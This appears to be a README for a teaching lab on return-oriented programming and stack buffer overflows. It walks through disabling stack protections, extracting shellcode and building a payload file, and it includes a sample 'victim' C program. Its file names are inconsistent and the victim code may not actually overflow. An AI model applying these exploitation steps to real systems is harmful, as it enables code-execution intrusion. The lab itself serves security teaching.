 # RoP and Stack Attacks Lab

This repository contains files and instructions for performing Return-Oriented Programming (RoP) and stack attacks. The lab focuses on exploiting vulnerabilities and executing arbitrary code through buffer overflows.

## Files

The following files are required for the lab:

- `dummy_echo`: Dummy executable vulnerable to buffer overflow attacks.
- `inject.c`: C code for crafting the exploit payload.
- `create_mal_code.c`: C code for creating the malicious code.
- `shellcode.c`: C code for generating the shellcode.

## Instructions

1. Download the necessary files from Github:
   - `dummy_echo`
   - `inject.c`
   - `create_mal_code.c`
   - `shellcode.c`

2. Compile the files using the following command:
   ```
   gcc -z execstack -fno-stack-protector shellcode.c -o shellcode
   ```

3. Extract the shellcode by executing the following command:
   ```
   dd if=shell skip=1632 count=36 bs=1 of=shellcode
   ```

   Alternatively, use the following command if the video instructions are followed:
   ```
   dd if=shellcode skip=4397 count=36 bs=1 of=shell_code
   ```

4. Verify the existence of the `shell_code.bin` file by running the command:
   ```
   ls -l shell_code.bin
   ```

   If the file is not found, proceed to the next step.

5. Install the `hexedit` tool by executing the following commands:
   ```
   sudo apt-get install python3-apt
   sudo apt-get update --fix-missing
   sudo apt install hexedit
   ```

6. Open the `shell_code` file with `hexedit`:
   ```
   hexedit shell_code
   ```

   Use the Ctrl+x command to exit and return to the terminal.

7. Run the `create_mal_code` program with the following syntax:
   ```
   ./create_mal_code assumed_shellcode_addr padding shellcode outputfile
   ```

8. Execute the `create_mal_code` program to create the malicious code file:
   ```
   ./create_mal_code 0 20 shell_code malicious_code
   ```

9. Verify the existence of the `malicious_code` file by running the command:
   ```
   ls -l malicious_code
   ```

10. Adjust the file permissions for `malicious_code` if needed:
    ```
    chmod 666 malicious_code
    ```

11. Verify the file permissions of `malicious_code` by running the command:
    ```
    ls -l malicious_code
    ```

12. Open the `malicious_code` file with `hexedit`:
    ```
    hexedit malicious_code
    ```

13. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

14. Execute the `run` command in `gdb` to observe any errors or issues.

15. If errors occur, create a new file named `victim_code.c` with the provided code snippet:

    ```c
    #include <stdio.h>
      void copy_and_echo(const char* p)
      {
          int length = strlen(p);
          char buffer[length + 1]; // Add space for null terminator
          int i, j = 0;
      
          for (i = 0; i < length; i++)
          {
              if (p[i] >= 32 && p[i] <= 126)
              {
                  buffer[j++] = p[i];
              }
          }
          buffer[j] = '\0'; // Null terminate the buffer
      
          printf("%s\n", buffer);
      }
      
      int main(int argc, const char* argv[])
      {
          if (argc < 2)
              return -1;
          copy_and_echo(argv[1]);
          return 0;
      }

    ```

16. Compile the `victim_code.c` file using the following command:
    ```
    gcc -z execstack -fno-stack-protector victim_code.c -o dummy_echo
    ```

17. Run the `dummy_echo` program:
    ```
    ./dummy_echo
    ```

18. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

19. Execute the `run` command in `gdb` to observe any errors or issues.

20. Take note of the stack address by typing the following command in `gdb`:
    ```
    p $sp
    ```

    The address will be displayed as `$1 = (void *) 0x7fffffffda58`. Make a note of this address.

21. Set a breakpoint in `inject.c` at the desired location using the stack address obtained in the previous step.

22. Compile `inject.c` with the following command:
    ```
    gcc -z execstack -fno-stack-protector inject.c -o inject
    ```

23. Run the `inject` program:
    ```
    ./inject
    ```

Note: Please ensure that you exercise caution when performing these actions and use them for educational purposes only.

